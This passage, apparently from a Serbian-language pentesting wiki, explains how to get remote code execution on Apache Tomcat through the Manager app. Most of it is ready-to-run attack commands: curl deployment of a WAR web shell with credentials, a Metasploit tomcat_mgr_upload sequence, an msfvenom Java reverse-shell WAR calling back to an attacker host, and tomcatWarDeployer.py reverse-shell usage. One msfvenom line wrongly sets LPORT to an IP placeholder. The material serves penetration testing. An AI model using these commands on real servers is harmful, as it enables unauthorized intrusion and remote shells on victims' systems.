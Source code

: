 Na kraju, ako imate pristup Upravljaču veb aplikacija Tomcata, možete **učitati i implementirati .war datoteku (izvršiti kod)**.

### Ograničenja

Moći ćete implementirati WAR datoteku samo ako imate **dovoljno privilegija** (uloge: **admin**, **manager** i **manager-script**). Te detalje možete pronaći u _tomcat-users.xml_ obično definisane u `/usr/share/tomcat9/etc/tomcat-users.xml` (varira između verzija) (vidi [POST ](./#post)odeljak).

```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```

### Metasploit

```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

### MSFVenom Reverse Shell

1. Napravite rat za implementaciju:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```

2. Postavite fajl `revshell.war` i pristupite mu (`/revshell/`):

### Bind i reverzibilna ljuska sa [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer)

U nekim scenarijima ovo ne radi (na primer, starije verzije sun-a)

#### Preuzimanje

```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```

#### Obrnuti shell

```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```
